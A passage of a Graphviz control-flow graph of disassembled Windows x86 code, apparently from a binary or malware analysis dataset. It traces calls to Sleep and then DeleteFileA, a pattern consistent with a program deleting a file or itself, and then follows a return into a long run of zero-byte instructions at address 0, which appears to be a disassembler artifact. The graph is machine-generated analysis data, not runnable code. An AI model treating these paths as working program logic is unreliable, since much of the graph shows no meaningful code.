a0x004012c0popl_ecx -> a0x004012c1orl_ecx_ecx [color="#000000"];
a0x004012c1orl_ecx_ecx -> a0x004012c3je_0x004012ce [color="#000000"];
a0x004012c3je_0x004012ce -> a0x004012cepushl_0x2122UINT32 [color="#000000",label="T"];
a0x004012cepushl_0x2122UINT32 -> a0x004012d3call_0x004013e0 [color="#000000"];
a0x004012d3call_0x004013e0 -> a0x004013e0jmp_Sleep_kernel32_dll [color="#000000"];
a0x004013e0jmp_Sleep_kernel32_dll -> Sleep_kernel32_dll [color="#000000"];
Sleep_kernel32_dll -> a0x004012d8pushl_ebx [color="#000000"];
a0x004012d8pushl_ebx -> a0x004012d9call_0x004013a4 [color="#000000"];
a0x004012d9call_0x004013a4 -> a0x004013a4jmp_DeleteFileA_kernel32_dll [color="#000000"];
a0x004013a4jmp_DeleteFileA_kernel32_dll -> DeleteFileA_kernel32_dll [color="#000000"];
DeleteFileA_kernel32_dll -> a0x004012denop_ [color="#000000"];
a0x004012denop_ -> a0x004012dfnop_ [color="#000000"];
a0x004012dfnop_ -> a0x004012e0popl_eax [color="#000000"];
a0x004012e0popl_eax -> a0x004012e1popl_ebx [color="#000000"];
a0x004012e1popl_ebx -> a0x004012e2ret [color="#000000"];
a0x004012e2ret -> a0x00000000addb_al_eax_ [color="#000000"];
a0x00000000addb_al_eax_ -> a0x00000002addb_al_eax_ [color="#000000"];
a0x00000002addb_al_eax_ -> a0x00000004addb_al_eax_ [color="#000000"];
a0x00000004addb_al_eax_ -> a0x00000006addb_al_eax_ [color="#000000"];
a0x00000006addb_al_eax_ -> a0x00000008addb_al_eax_ [color="#000000"];
a0x00000008addb_al_eax_ -> a0x0000000aaddb_al_eax_ [color="#000000"];
a0x0000000aaddb_al_eax_ -> a0x0000000caddb_al_eax_ [color="#000000"];
a0x0000000caddb_al_eax_ -> a0x0000000eaddb_al_eax_ [color="#000000"];
a0x0000000eaddb_al_eax_ -> a0x00000010addb_al_eax_ [color="#000000"];
a0x00000010addb_al_eax_ -> a0x00000012addb_al_eax_ [color="#000000"];
a0x00000012addb_al_eax_ -> a0x00000014addb_al_eax_ [color="#000000"];
a0x00000014addb_al_eax_ -> a0x00000016addb_al_eax_ [color="#000000"];
a0x00000016addb_al_eax_ -> a0x00000018addb_al_eax_ [color="#000000"];
a0x00000018addb_al_eax_ -> a0x0000001aaddb_al_eax_ [color="#000000"];
a0x0000001aaddb_al_eax_ -> a0x0000001caddb_al_eax_ [color="#000000"];
a0x0000001caddb_al_eax_ -> a0x0000001eaddb_al_eax_ [color="#000000"];
a0x0000001eaddb_al_eax_ -> a0x00000020addb_al_eax_ [color="#000000"];
a0x00000020addb_al_eax_ -> a0x00000022addb_al_eax_ [color="#000000"];
a0x00000022addb_al_eax_ -> a0x00000024addb_al_eax_ [color="#000000"];
a0x00000024addb_al_eax_ -> a0x00000026addb_al_eax_ [color="#000000"];
a0x00000026addb_al_eax_ -> a0x00000028addb_al_eax_ [color="#000000"];
a0x00000028addb_al_eax_ -> a0x0000002aaddb_al_eax_ [color="#000000"];
a0x0000002aaddb_al_eax_ -> a0x0000002caddb_al_eax_ [color="#000000"];
a0x0000002caddb_al_eax_ -> a0x0000002eaddb_al_eax_ [color="#000000"];
a0x0000002eaddb_al_eax_ -> a0x00000030addb_al_eax_ [color="#000000"];
a0x00000030addb_al_eax_ -> a0x00000032addb_al_eax_ [color="#000000"];
a0x00000032addb_al_eax_ -> a0x00000034addb_al_eax_ [color="#000000"];
a0x00000034addb_al_eax_ -> a0x00000036addb_al_eax_ [color="#000000"];
a0x00000036addb_al_eax_ -> a0x00000038addb_al_eax_ [color="#000000"];
a0x00000038addb_al_eax_ -> a0x0000003aaddb_al_eax_ [color="#000000"];
a0x0000003aaddb_al_eax_ -> a0x0000003caddb_al_eax_ [color="#000000"];
a0x0000003caddb_al_eax_ -> a0x0000003eaddb_al_eax_ [color="#000000"];
a0x0000003eaddb_al_eax_ -> a0x00000040addb_al_eax_ [color="#000000"];
a0x00000040addb_al_eax_ -> a0x00000042addb_al_eax_ [color="#000000"];
a0x00000042addb_al_eax_ -> a0x00000044addb_al_eax_ [color="#000000"];
a0x00000044addb_al_eax_ -> a0x00000046addb_al_eax_ [color="#000000"];
a0x00000046addb_al_eax_ -> a0x00000048addb_al_eax_ [color="#000000"];
a0x00000048addb_al_eax_ -> a0x0000004aaddb_al_eax_ [color="#000000"];
a0x0000004aaddb_al_eax_ -> a0x0000004caddb_al_eax_ [color="#000000"];
a0x0000004caddb_al_eax_ -> a0x0000004eaddb_al_eax_ [color="#000000"];
a0x0000004eaddb_al_eax_ -> a0x00000050addb_al_eax_ [color="#000000"];
a0x00000050addb_al_eax_ -> a0x00000052addb_al_eax_ [color="#000000"];
a0x00000052addb_al_eax_ -> a0x00000054addb_al_eax_ [color="#000000"];
a0x00000054addb_al_eax_ -> a0x00000056addb_al_eax_ [color="#000000"];
a0x00000056addb_al_eax_ -> a0x00000058addb_al_eax_ [color="#000000"];
a0x00000058addb_al_eax_ -> a0x0000005aaddb_al_eax_ [color="#000000"];
a0x0000005aaddb_al_eax_ -> a0x0000005caddb_al_eax_ [color="#000000"];
a0x0000005caddb_al_eax_ -> a0x0000005eaddb_al_eax_ [color="#000000"];
a0x0000005eaddb_al_eax_ -> a0x00000060addb_al_eax_ [color="#000000"];
a0x00000060addb_al_eax_ -> a0x00000062addb_al_eax_ [color="#000000"];
a0x00000062addb_al_eax_ -> a0x00000064addb_al_eax_ [color="#000000"];
a0x00000064addb_al_eax_ -> a0x00000066addb_al_eax_ [color="#000000"];
}
